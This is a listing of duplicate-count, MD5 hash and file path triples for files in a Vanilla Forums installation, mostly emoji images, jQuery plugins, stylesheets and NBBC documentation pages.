      2 e8b95e4a395b8886d4c4e6bfbf2343fd  ./3/plugins/editor/Gruntfile.js
      2 e8b5a00fd05118d2dae6c52fff6ca8c7  ./3/vendor/vanilla/nbbc/doc/usage_img.html
      2 e81ebc71a0a12823f641fe42769bf6fb  ./3/plugins/EmojiExtender/emoji/little/unamused.png
      2 e81a2b6ea3a2007e51b7550ec97a4bf5  ./3/plugins/EmojiExtender/emoji/rice/eh.png
      2 e812346aaa7e221de2548d03c7f23efe  ./3/vendor/vanilla/nbbc/doc/src/bbc_text.tpl
      2 e7f229fdb52be7c664d888dd856d658f  ./3/plugins/ButtonBar/js/buttonbar.js
      2 e7dc2d471127b7c507e1397f3d5b02d4  ./3/plugins/ProfileExtender/icon.png
      2 e7876ac4dfc429a371d4332bad416a17  ./3/applications/dashboard/design/cropimage.css
      2 e77e0d693f98c10b1b57e3b159c3dc6e  ./3/plugins/GooglePrettify/js/lang-proto.js
      2 e720397cdf33092efd7b0c3ff368deeb  ./3/resources/emoji/cold_sweat.png
      2 e71357d3baead6bdbd37f82e3eb5177c  ./3/library/vendors/oauth/LICENSE.txt
      2 e6d43796ad27194417154e7c159e0894  ./3/js/slice.js
      2 e655d5d27bc4a9c1992be37febd5b306  ./3/js/library/jquery.jcrop.pack.js
      2 e601d698e2d714b82a9f1a52012b3576  ./3/vendor/vanilla/nbbc/doc/bbc_repl.html
      2 e5eee8f948a086714217901333d22a4d  ./3/js/library/jquery.menu.js
      2 e5ed87d22be43689309a70b26005357c  ./3/plugins/EmojiExtender/emoji/twitter/grimace.png
      2 e50077e7af28f7ab40bb9bac2e8623a4  ./3/plugins/EmojiExtender/emoji/little/frown.png
      2 e481d43e490522164b119795d01cd646  ./3/js/easyXDM/easyXDM.Widgets.js
      2 e481d43e490522164b119795d01cd646  ./3/js/easyXDM/easyXDM.Widgets.debug.js
      2 e375eabb8c232c66e916c2169f48d1fe  ./3/plugins/EmojiExtender/emoji/twitter/kissing_closed_eyes.png
      2 e375eabb8c232c66e916c2169f48d1fe  ./3/plugins/EmojiExtender/emoji/twitter/kissing_blush.png
      2 e3543534f62b87079fd59eb8b20b2271  ./3/applications/dashboard/design/images/pixel.png
      2 e2ebe3fc5d096037dfd2b0f1f9008cf8  ./3/js/library/jquery-ui-10.custom.min.js
      2 e2d70f0341cbc71df0013e170b7c5b00  ./3/plugins/GettingStarted/design/check.png
      2 e2d70f0341cbc71df0013e170b7c5b00  ./3/applications/dashboard/design/images/check.png
      2 e2b8e19a37b253b4eadee0861ba399d2  ./3/plugins/ButtonBar/design/images/code.png
      2 e24ba94bb4ab4e345b0582bb6963e3cd  ./3/plugins/Flagging/design/flagging.css
      2 e220760f423d417317a7856f5f9951ff  ./3/plugins/EmojiExtender/emoji/yahoo/angry.gif
      2 e1a4193a9c3228682bc07b88b16e34d9  ./3/applications/dashboard/design/images/help-tn-640.jpg
      2 e1797ec3a5a8396e17f319151453bb23  ./3/plugins/Tagging/icon.png
      2 e157de39702f3b0e029e1fa839082498  ./3/applications/dashboard/design/images/welcome-vid-homepage.png
      2 e1567bc61900e9e85089ee0c3a585104  ./3/plugins/EmojiExtender/emoji/rice/crazy.png
      2 e114fea4c3a5401ba45efad51fff6d79  ./3/resources/emoji/kiss.png
      2 e114fea4c3a5401ba45efad51fff6d79  ./3/resources/emoji/kissing.png
      2 e0cbd5be0ee45fcdf8164a8eb95e5f7d  ./3/applications/dashboard/design/images/homepage-sprites.png
      2 e04d1c7d5511df5beba7895ab9d661b9  ./3/applications/dashboard/package.json
      2 df856c076734ceb9a2032209ebf2389b  ./3/plugins/GooglePrettify/js/lang-go.js
      2 df264065db0278819a20ab6dde679d50  ./3/plugins/EmojiExtender/emoji/little/anguished@2x.png
      2 def6c6e062941c8b2986f9f977b26307  ./3/library/vendors/smarty/libs/debug.tpl
      2 de871583fa3f66d414c9da17deb71e3c  ./3/js/library/jquery.expander.js
      2 de82fa85bb04c304875213dafc933979  ./3/library/vendors/Minify/builder/_index.js
      2 de7b9cf095a6d11e09182dbbe4134184  ./3/applications/dashboard/design/images/welcome-vid-themes.png
      2 de0973b9b5cde727dfcb5be221bbfdde  ./3/resources/fonts/vanillicon/index.html
      2 dcb9f7f526a6a743c3a2ca63a96dfe37  ./3/vendor/vanilla/nbbc/doc/src/app_rule.tpl
      2 dca44a092c288707355706aff63f3d9f  ./3/applications/dashboard/design/images/socialcons-small.png
      2 dc1a19e3af5fe59ef129b264f5e6ec58  ./3/plugins/ButtonBar/icon.png
      2 dbb25aabe9121e771d90d34c48215fe2  ./3/resources/emoji/kissing_smiling_eyes.png
      2 db93f6e4a8afe731489e897bcd838f88  ./3/plugins/EmojiExtender/emoji/twitter/dizzy.png
      2 db510b4e86ee0f16f1af82e06b37b152  ./3/themes/2011Compatibility/design/screenshot_terminal.png
      2 db36ed70a49e290864d685e26037605f  ./3/plugins/GooglePrettify/js/lang-css.js
      2 dac3b68cca448d89af27d89fdbef541a  ./3/themes/mobile/mobile.png
      2 da0f4e4f9a407a3b484d69f6323a7b47  ./3/plugins/EmojiExtender/emoji/twitter/flushed.png
      2 d9cf66363478db88662f3598054df63e  ./3/plugins/editor/scss/editor.scss
      2 d9cdbcf47ab3979a95d6f0b43f9c6e67  ./3/vendor/vanilla/nbbc/doc/src/bbc_link.tpl
      2 d98f13fab992ecdd327f8d00fc985476  ./3/plugins/EmojiExtender/emoji/rice/eh@2x.png
      2 d95b58d3034c5a7229b83dbdc3dda596  ./3/plugins/EmojiExtender/emoji/rice/frown@2x.png
      2 d90d9d429f9949c4671bf016591c2656  ./3/plugins/editor/icon-template-798x798.png
      2 d7f7102f9b306689b9dc5ee3fe042754  ./3/applications/dashboard/js/applicants.js
      2 d7cdcd2be7056ef088cf161489d7096b  ./3/plugins/VanillaStats/design/style.css
      2 d793ad2ff8bd01a2606ad08f69f34b4c  ./3/plugins/EmojiExtender/emoji/yahoo/joker.gif
      2 d6feeed9bb9528a88ffebb299255e5bd  ./3/plugins/EmojiExtender/emoji/little/smiley@2x.png
      2 d6a696dc3222f1f35682e56b0edc46b1  ./3/plugins/EmojiExtender/emoji/yahoo/relaxed.gif
      2 d66596240f74b15f237aefd2bc8558a6  ./3/plugins/VanillaStats/design/slider-sprites.png
      2 d61b5e413ee24677ee080b54f04ca286  ./3/plugins/ButtonBar/design/images/sprites.png
      2 d6160c4f335b13d00f6de07f466e793e  ./3/applications/dashboard/design/slice.css
      2 d57e4a6d6d5fddafc9f4dbe9019ccdde  ./3/vendor/vanilla/nbbc/doc/intro_whynbbc.html
      2 d56135e91cdbd0629b7f05023aeeaec5  ./3/js/library/jquery.dropdown.js
      2 d55f9553140b7512cf9d6463c21295f5  ./3/plugins/EmojiExtender/emoji/yahoo/pig.gif
      2 d55108a5c7f8b5b7793193710a59e169  ./3/vendor/vanilla/nbbc/smileys/irritated.gif
      2 d54ff941afbc43084d50f2aa9c61e927  ./3/vendor/vanilla/nbbc/doc/usage_smiley.html
      2 d528f97204a39490c2cf093d299b64b2  ./3/plugins/Flagging/icon.png
      2 d4c9adab9011ffec099cf2f026cba55f  ./3/plugins/vanillicon/vanillicon.svg
      2 d44cbcbff3d13cc6d03ab1b88cadac70  ./3/themes/2011Compatibility/design/customadmin.css
      2 d4369eb5bca504cecaee1e2012acb3ab  ./3/vendor/vanilla/nbbc/doc/usage_call.html
      2 d41d8cd98f00b204e9800998ecf8427e  ./3/uploads/.gitkeep
      2 d41d8cd98f00b204e9800998ecf8427e  ./3/locales/.gitkeep
      2 d41d8cd98f00b204e9800998ecf8427e  ./3/cache/Smarty/.gitkeep
      2 d41d8cd98f00b204e9800998ecf8427e  ./3/cache/Smarty/compile/.gitkeep
      2 d41d8cd98f00b204e9800998ecf8427e  ./3/cache/.gitkeep
      2 d3a878ac6112fe4d3ef279a804b1d80b  ./3/vendor/vanilla/nbbc/doc/src/bbc_list.tpl
      2 d3969cd3b07b7a0663c7d0f4b240d046  ./3/js/library/jquery.atwho.js
      2 d34771d9fa26899544ea18ba52be55ab  ./3/vendor/vanilla/nbbc/doc/src/app_css.tpl
      2 d331a54135905ce5c38663552aede8bf  ./3/plugins/EmojiExtender/emoji/little/-1.png
      2 d324f8cb45702b7470dc39edb18d5efc  ./3/plugins/EmojiExtender/emoji/rice/yum.png
      2 d2fc4f0c6fc5213ad6378796260b9e4d  ./3/plugins/EmojiExtender/emoji/twitter/sweat_smile.png
      2 d290a44b84f86562db48206c12922a3d  ./3/plugins/EmojiExtender/emoji/twitter/cold_sweat.png
      2 d2713929bb316900b85acf08d10a32db  ./3/vendor/vanilla/nbbc/smileys/saint.gif
      2 d1c23c59722c01ad05da55efe26c1bc1  ./3/applications/dashboard/js/condition.js
      2 d18639392e8529702f2cdc26f5a8834d  ./3/plugins/GooglePrettify/js/lang-erlang.js
      2 d1545446124445c49a49eda5dc831851  ./3/container.html
      2 d127311ccc95901551e0a6662034f9b7  ./3/plugins/EmojiExtender/emoji/little/hurrah.png
      2 d1042ff9eb5076f5cf6bb1bb9bbf9e78  ./3/plugins/EmojiExtender/emoji/yahoo/frowning.gif
      2 d0e0f6fccf765f371962a4a4e529f048  ./3/themes/2011Compatibility/views/default.master.tpl
      2 d0c635bd9561035d213e68a72fbdfc41  ./3/js/library/jquery.livequery.js
      2 d07193bbdce7e6e6fb938f61267b8027  ./3/resources/emoji/worried.png
      2 cfccaf5137cd5d2f990024be81b257b3  ./3/plugins/EmojiExtender/emoji/yahoo/stuck_out_tongue_closed_eyes.gif
      2 cfa3444d3491768e39f7c86573e40a54  ./3/resources/emoji/kissing_closed_eyes.png
      2 cfa3444d3491768e39f7c86573e40a54  ./3/resources/emoji/kissing_blush.png
      2 cec5b63c1170547a82bbe369e22b1db9  ./3/vendor/vanilla/nbbc/smileys/sleepy.gif
      2 cebee71433bde5f9ffa9ca7afd9d132b  ./3/applications/dashboard/design/images/socialcons-small@2x.png
      2 ceaff16920de6c9ae0e9308716a5a724  ./3/plugins/Twitter/design/help-consumervalues.png
      2 ce84b64bae15a8e3985451e502984c42  ./3/js/easyXDM/easyXDM.debug.js
      2 cdf9d264661f1efd964480c3e1c2de27  ./3/applications/dashboard/design/spoilers.css
      2 cd6404b0e9cf8b8382b14e752513dcbc  ./3/applications/dashboard/design/embed.css
      2 cd5e9342492514d229e0bf600c72ff81  ./3/resources/emoji/heart.png
      2 cd4651d8a93a0cac831ec7061c3801ca  ./3/plugins/GooglePrettify/js/lang-lisp.js
      2 cd228ae3e6cb06e686fc19928d1728d7  ./3/plugins/EmojiExtender/emoji/yahoo/joy.gif
      2 ccda42f70cd654ec9b1118102c9c0ab4  ./3/js/library/nestedSortable.3.4/jquery.ui.nestedSortable.js
      2 ccd1581cd1e8d326bc60314c8fb0cd4d  ./3/plugins/GooglePrettify/js/jquery.textarea.js
      2 cc8836a608837c1cb327a9148706496f  ./3/plugins/GooglePrettify/js/lang-dart.js
      2 cc875f6e92b27f01c77bc052c2a16a84  ./3/applications/dashboard/design/images/buttons.png
      2 cc6292bbbd48238f0c9af15a22691626  ./3/plugins/EmojiExtender/emoji/yahoo/pirate.gif
      2 cc166bcbc43d590909a30be091ddb78b  ./3/resources/emoji/lol.png
      2 cbb4f8e6f7e5464821499b85ada8adde  ./3/applications/dashboard/design/images/upload-bg.gif
      2 ca0a1c5058d86ba5b44a5faaa65828a0  ./3/resources/emoji/fearful.png
      2 c9b325f540bca941d600b2acc9356677  ./3/plugins/EmojiExtender/emoji/little/grin.png
      2 c95a23dd9ee075a267a2a6f75f4da33e  ./3/plugins/EmojiExtender/emoji/little/dizzy@2x.png
      2 c940699432ebf5eb11b446794b17b0b1  ./3/plugins/EmojiExtender/emoji/rice/smile.png
      2 c935a28ec7c10e067373009cb2ad5c9f  ./3/plugins/GooglePrettify/js/lang-tex.js
      2 c92f17c18f2fa123c5740d564c8803c9  ./3/applications/dashboard/scss/admin.scss
      2 c91adac28c7f39fbcdd3c273733f4deb  ./3/resources/emoji/smiley.png
      2 c855964b2318fdc09eb7793e760ca3a9  ./3/plugins/editor/js/wysihtml5-0.4pre.js
      2 c8386ddb415693e3ffe487de04059854  ./3/vendor/vanilla/nbbc/smileys/sweatdrop.gif
      2 c836420f54ba470a7e27854e44076a5b  ./3/vendor/vanilla/nbbc/readme.html
      2 c7f899809136b1fb82953bffc61210c9  ./3/plugins/EmojiExtender/emoji/yahoo/innocent.gif
      2 c79de1337502a31032c62b55814a5dc2  ./3/plugins/EmojiExtender/emoji/rice/love.png
      2 c76e4dfb41d7553b5973eab543b65707  ./3/themes/2011Compatibility/design/star_sprite_lemon.png
      2 c6ff784d83b675d59531178b8d5a8617  ./3/applications/dashboard/js/entry.js
      2 c6f05fed450631546b95522702783792  ./3/applications/dashboard/design/images/parent_divider.gif
      2 c6dd815716455fb9c73cb66f85a7e872  ./3/plugins/Tagging/design/token-input.css
      2 c66e5fd46a5d61c52f4b99639384cd3e  ./3/plugins/EmojiExtender/emoji/twitter/blush.png
      2 c5e7bc36ded58a8100b8e04efcaa65a0  ./3/plugins/GooglePrettify/js/lang-apollo.js
      2 c579546ae093618a730299f1dde7079e  ./3/plugins/EmojiExtender/emoji/yahoo/prayer.gif
      2 c5500d88afbb8f1ca3751c3f10d8234a  ./3/plugins/EmojiExtender/emoji/twitter/angry.png
      2 c52bae112b18d27ac6ec6ac717d3243f  ./3/plugins/editor/js/jquery.fileupload.js
      2 c527e830b1a5a63cdd1e0cc2ea65681e  ./3/plugins/EmojiExtender/emoji/twitter/astonished.png
      2 c510d90836db85041456a7ec15c47613  ./3/plugins/EmojiExtender/emoji/little/surprised@2x.png
      2 c50e53ce83b0a7455839bdff43acdca1  ./3/applications/dashboard/design/images/error.png
      2 c4ff9cb0f64128d035c0fdb949eac17b  ./3/plugins/EmojiExtender/emoji/yahoo/fearful.gif
      2 c4de4d2c5d0547ad89e24ab61d16214b  ./3/plugins/EmojiExtender/emoji/yahoo/yin_yang.gif
      2 c4d120de18dae124c10eaa8b0ddc0b9c  ./3/plugins/EmojiExtender/emoji/rice/silenced.png
      2 c4ca4238a0b923820dcc509a6f75849b  ./3/library/vendors/Minify/builder/rewriteTest.js
      2 c48396d538fe0aa2d5f2aba5acebd341  ./3/plugins/EmojiExtender/emoji/yahoo/plus_one.gif
      2 c4829b0c83d61eeb1afb1368f0e61189  ./3/vendor/vanilla/nbbc/doc/external.gif
      2 c46b0b329bad5dce440508f524c4ffef  ./3/themes/default/README.txt
      2 c445c9b30c10f7360b50b71ed5a7b3ee  ./3/plugins/EmojiExtender/emoji/little/confused@2x.png
      2 c36c18c8cdf473da6b1518b79cb7ab60  ./3/plugins/EmojiExtender/emoji/rice/ohnoes.png
      2 c2f99894a541d5c671dbfa9cf973b371  ./3/plugins/EmojiExtender/emoji/rice/blush@2x.png
      2 c2a8af9d1748f7caec6d42fe492179b6  ./3/plugins/EmojiExtender/emoji/rice/neutral.png
      2 c2a1510637e1485c23f3563810436d83  ./3/plugins/EmojiExtender/emoji/little/silenced@2x.png
      2 c2208d1a6a33e5c3ae5cb81e016065cc  ./3/js/count.js
      2 c20fcf94d3ea7853138db612d3e0b9d8  ./3/plugins/EmojiExtender/emoji/rice/-1@2x.png
      2 c209c3a17c9971d60376db3b68040816  ./3/plugins/EmojiExtender/emoji/little/winky@2x.png
      2 c1eb4e76a8373b331b68a6f083742d52  ./3/plugins/Quotes/js/quotes.js
      2 c1e4be4a1c07afc84e3a0bbc8e2aefac  ./3/plugins/EmojiExtender/emoji/twitter/sleeping.png
      2 c14ed376030a09e4dd217207689793c8  ./3/plugins/Tagging/design/tagadmin.css
      2 c12b7df18014340e3ccc0702667a614d  ./3/js/easyXDM/MIT-license.txt
      2 c0d93c1113c3cc6d2776d53630b1d747  ./3/vendor/vanilla/nbbc/doc/usage_limit.html
      2 c099f6cd52fa5e803ce6d05a840d009a  ./3/plugins/EmojiExtender/emoji/yahoo/minus_one.gif
      2 c068777b6567d1ff829a801fb3238d25  ./3/applications/dashboard/design/images/socialcons.png
      2 c059f734c1f49a2129df19a7ce01d2d3  ./3/plugins/Tagging/design/childtagslist.css
      2 c0143f67c54b2189ee476b7882fab559  ./3/themes/EmbedFriendly/screenshot.png
      2 bfd17d939b7f030806f8b34ff911417b  ./3/resources/emoji/pensive.png
      2 bf43c8d0ad76d24b9b6496f261ea41e0  ./3/plugins/EmojiExtender/emoji/twitter/lol.png
      2 bf20f16a3696c8cff039a4f023e8266d  ./3/applications/vanilla/js/categories.js
      2 bedfde57cdaf02c8dab3daf085ace195  ./3/plugins/EmojiExtender/emoji/twitter/innocent.png
      2 becfd0438ba9cdd9ffb76acdcc20204a  ./3/js/library/jquery.autogrow.js
      2 bec6033f8b7bfedacafe56e0948aef04  ./3/plugins/EmojiExtender/emoji/twitter/tongue.png
      2 be9113680fc042e21f45fa9602927fd3  ./3/resources/emoji/weary.png
      2 be72d3ba1e2686053a6d5169fa2ce29a  ./3/plugins/ButtonBar/design/images/sprites.psd
      2 be47e54e23e7402869eaa7d43fb9cd2f  ./3/applications/dashboard/design/images/options-button.png
      2 bdb847822f91db6693a3d071e8fb41ce  ./3/plugins/VanillaStats/icon.png
      2 bd9ea42390bd6b39a811655f71573681  ./3/plugins/EmojiExtender/emoji/yahoo/bow.gif
      2 bd827f1b1265ae53d74dd2a60f487501  ./3/plugins/GooglePrettify/icon.png
      2 bd56a8771c070683f9ae0bf2e5e13acb  ./3/themes/mobile/design/images/new.png
      2 bd1efbf72f44c121f9ea6df6678b2997  ./3/applications/dashboard/design/images/greenarrow.png
      2 bc6b931a28626d3002d93e072b54234d  ./3/plugins/EmojiExtender/emoji/rice/money@2x.png
      2 bc5a0b40e992d5cb74b8109b60a09426  ./3/applications/dashboard/bower.json
      2 bc51c99a5b8ec7c74726e00112c05076  ./3/vendor/vanilla/nbbc/doc/src/bbc.tpl
      2 bb440a3866325851f3258b657bff19fd  ./3/resources/emoji/triumph.png
      2 b9ed97793c2b413112e6fcada8bc2394  ./3/vendor/vanilla/nbbc/doc/src/api_trim.tpl
      2 b99912dc7f0db99ce64a16d68893299b  ./3/plugins/ButtonBar/design/images/underline.png
      2 b94c42fd3a46801fed2cbf7f93bd3d7d  ./3/plugins/EmojiExtender/emoji/yahoo/worried.gif
      2 b944dc8d45937dbc527c59d14c45da0a  ./3/resources/emoji/star.png
      2 b92c64e6c1c20f0026205b56544b85f9  ./3/resources/emoji/open_mouth.png
      2 b906e93d678acafdaacc58b678fb97f0  ./3/plugins/EmojiExtender/emoji/yahoo/i_dunno.gif
      2 b8ffd6ef47dc649ca9f1f5f08ff58a21  ./3/plugins/EmojiExtender/emoji/twitter/grey_question.png
      2 b8e8019d958145a0efa4c7fed9cab7ce  ./3/vendor/vanilla/nbbc/README.md
      2 b8d64d0bc142b3f670cc0611b0aebcae  ./3/js/library/nestedSortable.3.4/jquery-1.7.2.min.js
      2 b84d4ce7919483bd5926cd17d528d984  ./3/js/library/jquery.autocomplete.pack.js
      2 b7f0994f65579c3519145dd48db03dc4  ./3/applications/dashboard/scss/style.scss
      2 b7b6f21d855318c968216a6079772766  ./3/plugins/EmojiExtender/emoji/rice/love@2x.png
      2 b7a88834742552908047a3900bd1755e  ./3/vendor/vanilla/nbbc/smileys/star.gif
      2 b7969306df0d344731a1a25767c6d32a  ./3/js/library/jquery.gardencheckboxgrid.js
      2 b74d8e672d26f79087548fa56f68a951  ./3/plugins/EmojiExtender/js/.jshintrc
      2 b74d8e672d26f79087548fa56f68a951  ./3/applications/dashboard/js/.jshintrc
      2 b68a33de081c45cc3a784bdc38caaed4  ./3/library/vendors/Minify/builder/bm.js
      2 b67469ad6b7bd9fe77114eef28d74277  ./3/plugins/GooglePrettify/js/lang-mumps.js
      2 b60c2336e5f6eeaccbea53c5c51aee3c  ./3/plugins/EmojiExtender/emoji/twitter/sweat.png
      2 b5eb38ff88bc11d8b38ae02fdae179a9  ./3/resources/emoji/tired_face.png
      2 b58c6e42347ed5a59bd0149c5db5889b  ./3/plugins/EmojiExtender/emoji/little/bleep_bloop@2x.png
      2 b4e97f931b2f1a6ef427e950fb1f9f5a  ./3/plugins/EmojiExtender/emoji/yahoo/skull.gif
      2 b4beca4e5c35b43bac156bdce7c46425  ./3/applications/dashboard/js/password.js
      2 b429a9550e178b81f20acbbafbf2de4e  ./3/plugins/EmojiExtender/emoji/rice/smile@2x.png
      2 b3e1d54116755bde90a6f9098ec6ebb8  ./3/vendor/vanilla/nbbc/doc/app_smiley.html
      2 b37b9968e55cdd23a8cb1c505647abde  ./3/vendor/vanilla/nbbc/smileys/surprise.gif
      2 b362f855eceb2a2b7cb45dc199a2c84a  ./3/plugins/EmojiExtender/emoji/twitter/stuck_out_tongue_closed_eyes.png
      2 b2d3748edfd245d82ecacaa19c95fc49  ./3/applications/vanilla/js/discussion.js
      2 b2cf05d6ed6d505f48e4d51379fe8379  ./3/applications/dashboard/design/images/dashboard-bg.png
      2 b2cb314e879a4f13316a98961c4f933c  ./3/plugins/EmojiExtender/emoji/rice/sarcastic.png
      2 b2397882151264f9b4f95487e7320f03  ./3/plugins/EmojiExtender/emoji/little/mrgreen@2x.png
      2 b21c6dabc2f1eb3b685d59473dae68ac  ./3/plugins/EmojiExtender/emoji/little/confounded@2x.png
      2 b21070b1bbaa5ee961b3d9f0b9b01538  ./3/plugins/GooglePlus/icon.png
      2 b1b86aa2b41c47a884426f29a0962291  ./3/plugins/OpenID/icon.png
      2 b1af44342e577fefe264f19dc230867e  ./3/plugins/EmojiExtender/emoji/little/sunglasses@2x.png
      2 b169702ac72b292fe1acfc5fdcf40efd  ./3/resources/emoji/stuck_out_tongue_winking_eye.png
      2 b101b6b7f175ee0991475e6b2e3d482e  ./3/vendor/vanilla/nbbc/doc/app_css.html
      2 b0c786125f7de01b2d5551636da1562c  ./3/plugins/EmojiExtender/emoji/twitter/sunglasses.png
      2 b0853728064192a576c02b3082dc670d  ./3/plugins/EmojiExtender/emoji/twitter/expressionless.png
      2 b055c9603d22a8efc3499d2c832eba77  ./3/plugins/EmojiExtender/emoji/little/angry@2x.png
      2 afc82a65aa165834a7c160296bda4915  ./3/plugins/EmojiExtender/emoji/yahoo/grinning.gif
      2 af666db243f78accf2bc13cb10675f71  ./3/plugins/EmojiExtender/emoji/yahoo/dizzy.gif
      2 af54650e26e1bdf7cfddae5b2ca51081  ./3/resources/emoji/disappointed.png
      2 af3cd9cced3c4362b875cb263c8ad212  ./3/plugins/EmojiExtender/emoji/rice/sweat@2x.png
      2 af33797afd99f16164150429790e5756  ./3/plugins/EmojiExtender/emoji/rice/rage.png
      2 af2b43c142a0add2099d25e7110cb1ca  ./3/vendor/vanilla/nbbc/doc/src/intro_over.tpl
      2 aec5ff7c75f2da91dcce54a068c68c2d  ./3/applications/dashboard/js/import.js
      2 ae768600e45f0a1cc380a6faac68d9c0  ./3/applications/dashboard/design/images/sprites.png
      2 add15fae8452b73eff14cbd80eb600dc  ./3/plugins/EmojiExtender/emoji/none/none-icon.png
      2 ad99db588b6350f914a6083eeae377c6  ./3/plugins/EmojiExtender/emoji/twitter/heart.png
      2 ad3532189297ce99d5e5d151f3fd3526  ./3/plugins/EmojiExtender/emoji/little/neutral@2x.png
      2 acc0416eaf1e3d11189a5e894eaea571  ./3/resources/fonts/vanillicon/preview.html
      2 ac8033bb7dffa6e1a5cfaf66745ddefb  ./3/vendor/vanilla/nbbc/doc/install_unpack.html
      2 abfec46fa18d33613f9bd0411afe361e  ./3/plugins/EmojiExtender/emoji/twitter/skull.png
      2 ab6b2fcf8a4936b0bb7da5994f85bbeb  ./3/js/library/jquery-ui.js
      2 ab4bf3bc818da284d4b3e041bcf33dba  ./3/js/library/elycharts/elycharts.min.js
      2 ab1179c658acb4e441daf179d7b2d907  ./3/plugins/EmojiExtender/emoji/twitter/triumph.png
      2 aaabbd2e748156eccd8efdc919be5f47  ./3/plugins/EmojiExtender/emoji/twitter/fearful.png
      2 aaa4e33d4aa05b7778f73080fdb352f2  ./3/plugins/GooglePrettify/design/prettify.css
      2 aa430168f179a68142afdbe210819ce8  ./3/vendor/vanilla/nbbc/doc/src/app_internals.tpl
      2 aa24929cc7198f98f29b94799dc654d0  ./3/plugins/EmojiExtender/emoji/little/love.png
      2 a99ed039f5bd36cfd1dd464ef8f80861  ./3/applications/dashboard/design/images/welcome-vid-categories.png
      2 a93651c7432afb762168565d6328d23f  ./3/themes/bittersweet/screenshot.png
      2 a8dae137def4f32c15ce6dc147652328  ./3/vendor/vanilla/nbbc/doc/src/usage_css.tpl
      2 a854f409250da8c93ad6763d6b1bbb28  ./3/plugins/Twitter/icon.png
      2 a82f0e722a35e5a4d8906c90ecf63db0  ./3/vendor/vanilla/nbbc/doc/src/app_class.tpl
      2 a7eb91ed7ace2329a51c4dcd1682a281  ./3/resources/emoji/relaxed.png
      2 a79797eb9bb7a83e4040a0d903f174ef  ./3/plugins/VanillaStats/design/daterange-sprites.png
      2 a7221dc7a586df91205b23fd8b921045  ./3/resources/emoji/cry.png
      2 a6f314f273764fccebc33a463eef5730  ./3/plugins/EmojiExtender/emoji/twitter/confounded.png
      2 a6e2b2ec73179fca3f128629007de13a  ./3/plugins/editor/js/jquery.hotkeys.js
      2 a6e2b2ec73179fca3f128629007de13a  ./3/plugins/ButtonBar/js/jquery.hotkeys.js
      2 a66582e81df8c90c1fae0d3fc0ca1bc5  ./3/vendor/vanilla/nbbc/doc/src/app_tagparams.tpl
      2 a60d6c3988484f55a7c27346e7437d3f  ./3/plugins/GooglePrettify/js/lang-yaml.js
      2 a5358ab0fa2543db471b20f882c10e90  ./3/vendor/vanilla/nbbc/smileys/heart.gif
      2 a4d954f99d3bdeb9a699c9e23e6737f9  ./3/plugins/editor/scss/settings.scss
      2 a421ef045165cf4802a085b929617a1d  ./3/plugins/EmojiExtender/emoji/little/love@2x.png
      2 a41110d00a035520d2473e1f5bb9f896  ./3/plugins/EmojiExtender/emoji/rice/sweat.png
      2 a36980a829fb376183908c50b26ef007  ./3/plugins/EmojiExtender/emoji/yahoo/no_mouth.gif
      2 a318e46810dff0921d852cdbcee226d9  ./3/plugins/EmojiExtender/emoji/twitter/mrgreen.png
      2 a3081a83f2029a068694fd3516a18165  ./3/plugins/EmojiExtender/emoji/yahoo/punch.gif
      2 a2a45f2513b5afb888705616fb9699ef  ./3/plugins/editor/scss/globals/_variables.scss
      2 a27c348e4e85042c6dfa28fb4fbbdedd  ./3/plugins/GooglePrettify/js/lang-rd.js
      2 a2099c476e4f47c44a5c0e08e5f7b7c3  ./3/plugins/EmojiExtender/emoji/little/grin@2x.png
      2 a1c32196435a1996045667b957b6ed0f  ./3/js/library/jquery.gardenmorepager.js
      2 a11f2b0c8aa29d2cdec65e54d1ffc7c0  ./3/resources/emoji/smirk.png
      2 a10b4a909e6e295b19c0fe7a4e920d09  ./3/plugins/EmojiExtender/emoji/rice/neutral@2x.png
      2 a0bec03115bc28b5df40be41dd917422  ./3/applications/dashboard/design/deverror.css
      2 a0b876c23d65b3f4aa5ef901d6188100  ./3/vendor/vanilla/nbbc/doc/src/usage_auto.tpl
      2 a06df4122563dc8c36858b142cf16b82  ./3/plugins/editor/js/advanced.js
      2 a0528167562019c088438435b3d100c0  ./3/plugins/EmojiExtender/emoji/yahoo/giggle.gif
      2 a017041d8eadde4eed70f0ca399fc37f  ./3/plugins/EmojiExtender/emoji/yahoo/smile.gif
      2 a0005e0729fcf527cdaff6f17f104706  ./3/plugins/EmojiExtender/emoji/yahoo/bee.gif
      2 9ff237520d9636948296f292dcd9d428  ./3/applications/dashboard/scss/legacy/_variables.scss
      2 9fd71600dc297acce0155ac5a89e3f78  ./3/plugins/EmojiExtender/emoji/twitter/warning.png
      2 9f994ec9c1853f95c1799c1ec79a8a48  ./3/plugins/EmojiExtender/emoji/rice/ohnoes@2x.png
      2 9f515db5e062367b5d129261e8ebb43a  ./3/plugins/EmojiExtender/emoji/yahoo/anguished.gif
      2 9f48bf4e66ed58384a4b420ce0032bf8  ./3/plugins/EmojiExtender/emoji/yahoo/hug.gif
      2 9f28f882b28bfe3ae39cbb550e10f394  ./3/plugins/EmojiExtender/emoji/rice/cry.png
      2 9e6636412a295a0ae47ac4efcdc263a4  ./3/plugins/EmojiExtender/emoji/yahoo/get_outta_here.gif
      2 9e26c024bb4249ed5ef97044ad978b5a  ./3/plugins/EmojiExtender/emoji/twitter/weary.png
      2 9e0e6721f46ea24469eadb716a92158f  ./3/plugins/Gravatar/default_250.png
      2 9db70e7842d4f3a0e1fff6fba0f0f31d  ./3/plugins/EmojiExtender/emoji/little/+1.png
      2 9d674390890d85a31f0cfb151628c35b  ./3/plugins/EmojiExtender/emoji/yahoo/scream.gif
      2 9d33d7fd4f8b1e1a5616f5de72c47eb9  ./3/applications/dashboard/design/style.css
      2 9ca9a0e3eba46e63a54281f1a150f521  ./3/plugins/EmojiExtender/emoji/yahoo/transformer.gif
      2 9c5d05d64745486e7a4d98218a5a8f8f  ./3/plugins/EmojiExtender/design/settings.css
      2 9bbd9c751ae8c006e533a1b35b69f5af  ./3/vendor/vanilla/nbbc/doc/styles.css
      2 9b72db20e0ef0e3fe859fabda45bcfa5  ./3/plugins/EmojiExtender/emoji/yahoo/rage.gif
      2 9b5c7d65e30cf3f98d3cc188e61a2928  ./3/js/library/jquery.tokeninput.js
      2 9ac261df52e1a26d0349fb75a3207a5d  ./3/plugins/EmojiExtender/emoji/little/bawling@2x.png
      2 9abdcb43d2ee86b92bb178dd0e0dcf83  ./3/vendor/vanilla/nbbc/doc/src/usage_html.tpl
      2 9ab16c84fe1fecdb36fde06ab1d476a0  ./3/resources/emoji/trollface.png
      2 9ab16c84fe1fecdb36fde06ab1d476a0  ./3/plugins/EmojiExtender/emoji/twitter/trollface.png
